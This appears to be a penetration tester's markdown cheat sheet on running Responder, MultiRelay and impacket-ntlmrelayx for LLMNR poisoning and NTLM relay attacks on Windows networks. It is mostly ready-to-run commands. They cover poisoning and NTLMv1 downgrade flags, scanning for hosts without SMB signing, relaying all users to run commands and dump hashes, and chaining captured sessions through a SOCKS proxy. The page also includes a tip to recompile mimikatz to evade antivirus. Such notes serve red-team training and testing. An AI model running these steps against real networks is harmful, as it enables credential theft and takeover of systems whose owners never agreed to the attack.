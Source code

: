```yaml
---
category: Uncategorized
tags: []
---
```

#enumeration #relay-enumeration
# Source: 

https://github.com/lgandx/Responder

# Tools in Responder: 

Location: /usr/share/Responder/tools

# Make changes to config to turn off services:

`nano /usr/share/responder/Responder.conf`

# Configuring MultiRelay: 
In Kali Linux: 
1. pip install pycryptodome
2. Install Mingw and create multi relay binaries:
```
sudo apt-get install gcc-mingw-w64-x86-64
sudo x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv
sudo x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode
```
4. python3 MultiRelay.py
```
Usage: 
responder-MultiRelay -t 10.20.30.40 -u Administrator lgandx admin
responder-MultiRelay -t 10.20.30.40 -u ALL

Options:
  --version             show program's version number and exit
  -h, --help            show this help message and exit
  -t 10.20.30.45        Target server for SMB relay.
  -p 8081               Additional port to listen on, this will relay for
                        proxy, http and webdav incoming packets.
  -u, --UserToRelay     Users to relay. Use '-u ALL' to relay all users.
  -c whoami, --command=whoami
                        Single command to run (scripting)
  -d, --dump            Dump hashes (scripting)
```


# Starting Responder:

- responder -I [Interface] -A
- responder -I [Interface] -i [IP Address] or -e [External IP] -A

## Starting Responder in Basic Authentication Mode
- responder -I [Interface] -wdF -b

## Force NTLM Authentication to version 1 instead of version 2:
- responder -I [Interface] -wdF --lm --disable-ess

## External IP Poisoning
- responder -I [Interface] -e 172.21.1.2

## DNS Injection in DHCP Responses
- responder -i [interface] -D

# Using Responder-RunFinger to verify if SMB Signing is not enabled

- responder-RunFinger -i 172.21.0.0/24
- python3 RunFinger.py -i 172.21.0.0/24

# Using Responder-MultiRelay
Tips:
Multirelay uses the default version of mimikatz and it can easily flagged by AV. It is recommend to compile your own custom version and use it with mutlirelay.
Do not run multirelay against targets that have smb message_signing enabled:

- responder-Multirelay -t 172.21.0.0 - u ALL
- python3 Multirelay.py -t 172.21.0.0 -u ALL

# Using Responder with Impacket-Ntlmrelayx
NtlmRelayX is an impacket script that allows you to conduct NTLM Relay Attacks, by creating an SMB and HTTP server and relaying credentials to various different protocols (SMB, HTTP, LDAP, etc.).

1. When you are using responder to capture challenges and relay them to ntlmrelayx you will need to turn off HTTP and SMB in the responder.conf file. Also have a list of what systems are running smb and have smb signing disabled.

2. Set up a socks proxy on port 1080. This socks proxy will successfully relay the traffic to ntlmrelayx. 
- sudo nano /etc/proxychains4.conf
```
[ProxyList]
# NtlmRelayX Socks Proxy
socks4 127.0.0.1 1080
# Other Proxies
```
3. Run Responder and NtlmRelayX to watch the magic happen:
- sudo Responder -I [Interface]
- impacket-ntlmrelayx -socks -smb2support -tf smb-targets.txt
- ntlmrelayx.py -socks -smb2support -tf smb-targets.txt

To view a full list of captured sessions from NtlmRelayX
```
ntlmrelayx> socks
Protocol  Target          Username                  Port
--------  --------------  ------------------------  ----
SMB       172.21.48.38   SPAWN/MSIMMONS            445
SMB       172.21.48.230  FAERIE/ADMINISTRATOR      445
SMB       172.21.48.230  FAERIE/ALSIMMONS          445
```

# References: 

- https://github.com/lgandx/Responder



